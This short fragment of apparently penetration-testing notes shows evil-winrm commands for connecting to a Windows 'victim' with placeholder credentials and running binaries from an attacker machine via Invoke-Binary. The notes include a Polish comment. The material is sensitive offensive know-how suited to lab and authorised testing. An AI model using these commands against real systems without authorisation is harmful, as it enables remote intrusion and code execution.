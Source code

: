 To execute binaries from our attacker machine we need to use evil-winrm’s custom built-in **Invoke-Binary** function.
```powershell
$ evil-winrm -u <user> -p <passwd> -i <IP> -e /usr/share/windows-resources -s /usr/share/windows-resources
# nawiązanie połączenia z ofiaą za pomocą evil-winrm
(*evil-winrm*) PS> menu
(*evil-winrm*) PS> Invoke-Binary /usr/share/windows-resources
```